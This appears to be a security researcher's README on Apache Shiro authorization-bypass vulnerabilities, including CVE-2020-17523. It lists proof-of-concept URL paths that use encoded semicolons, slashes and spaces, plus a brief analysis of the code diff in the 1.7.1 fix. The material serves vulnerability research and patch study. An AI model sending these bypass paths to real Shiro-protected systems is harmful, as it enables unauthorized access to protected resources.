


shiro权限绕过漏洞
PoC:
* /hello/a/
* /hello;/a/
* /hello/%253ba
* /hello/a%252fa
* /hello/%3ba

[analysis](http://x2y.pw/2020/08/24/shiro-%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E%E5%90%88%E9%9B%86/)  
downgrade shiro if u want to test these PoCs.

## update
### CVE-2020-17523(not sure)
`/test/?name=bypass`  
`/hello/%20` [idea from momosecurity](https://mp.weixin.qq.com/s/IOQ8fmaSq-aJeAGCogU98Q)

### simple analysis:
[diff 1.7.0 vs 1.7.1](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1)  
2 interesting changes：  
1. [web/src/main/java/org/apache/shiro/web/filter/mgt/PathMatchingFilterChainResolver.java](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1#diff-a724e4e5fde47ea6cc29803d5a4581a299b74f09d4ec5ce047e7d3e056116815L108)

   Trim `DEFAULT_PATH_SEPARATOR` directly in 1.7.0, but `pathMatches` the original `requestURI` and `requestURINoTrailingSlash`.
     

2. [web/src/test/java/org/apache/shiro/web/filter/PathMatchingFilterParameterizedTest.java](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1#diff-2fc6eb083042ed6afebbe10bd6d2767c97ceeb3bdc50c0bdc9f372f1e7890d7aR87)

   Add some testcases about space. And in [core/src/main/java/org/apache/shiro/util/AntPathMatcher.java](https://github.com/apache/shiro/compare/shiro-root-1.7.0...shiro-root-1.7.1#diff-ce9ba3462f7d76e68c79bec5b9a3aea9bbd0d22ffb5e738f1b621cae49037b92R120), set another param of `StringUtils.tokenizeToStringArray(pattern, this.pathSeparator, false, true);`, trimTokens=false, ignoreEmptyTokens=true